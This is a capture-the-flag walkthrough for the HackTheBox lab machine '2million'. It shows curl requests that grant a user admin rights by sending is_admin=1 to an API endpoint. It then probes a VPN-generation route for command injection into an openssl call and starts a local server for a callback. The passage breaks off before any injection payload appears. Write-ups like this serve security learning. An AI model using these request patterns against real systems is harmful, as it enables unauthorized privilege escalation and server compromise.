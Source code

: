 We need a email in the request body. Let's do it!

```
curl -X PUT http://2million.htb/api/v1/admin/settings/update --cookie
 "PHPSESSID=877le0dr37hcm1p5bgbbvg8bte" -H "Content-Type: application/json"  -d '{"email":"tandera@gmail.com"}'
{"status":"danger","message":"Missing parameter: is_admin"}
```

If we set the `is_admin` property to `1`, our user gets admin privileges! 

```
curl -X PUT http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=877le0dr37hcm1p5bgbbvg8bte" -H "Content-Type: application/json"  -d '{"email":"tandera@gmail.com", "is_admin":1}'
{"id":25,"username":"tandera","is_admin":1}
```

```
curl http://2million.htb/api/v1/admin/auth --cookie "PHPSESSID=877le0dr37hcm1p5bgbbvg8bte"
{"message":true}
```

And now? How can we gain access the server?

## Exploitation

As a admin user, now we can `POST` on the `/vpn/generate` route:

```
curl "http://2million.htb/api/v1/admin/vpn/generate" --cookie "PHPSESSID=877le0dr37hcm1p5bgbbvg8bte" -H "Content-Type: application/json" -d ''
{"status":"danger","message":"Missing parameter: username"}
```

Setting the username to `tandera`, we receive the `ovpn` file: 

```
curl "http://2million.htb/api/v1/admin/vpn/generate" --cookie "PHPSESSID=877le0dr37hcm1p5bgbbvg8bte" -H "Content-Type: application/json" -d '{"username":"tandera"}'
client
dev tun
proto udp
remote edge-eu-free-1.2million.htb 1337
// ...
```

Here comes the catch: in the `.ovpn` file, there's certificates and a private key to that user on the VPN server. There's multiple ways to generate this certificates/keys, and one of them is through `openssl`. Our gold guess is that the server, in the backend, is calling the `openssl` binary through a `system` or a `shell_exec` and, if the developer wasn't careful enough, we can inject code directly into the command to generate our `.ovpn` file. 

To test this hypothesis, let's make the box request our local server.

1. (Lights...) Creating a local server:

```shell
sudo php -S 0.0.0.0:80
```
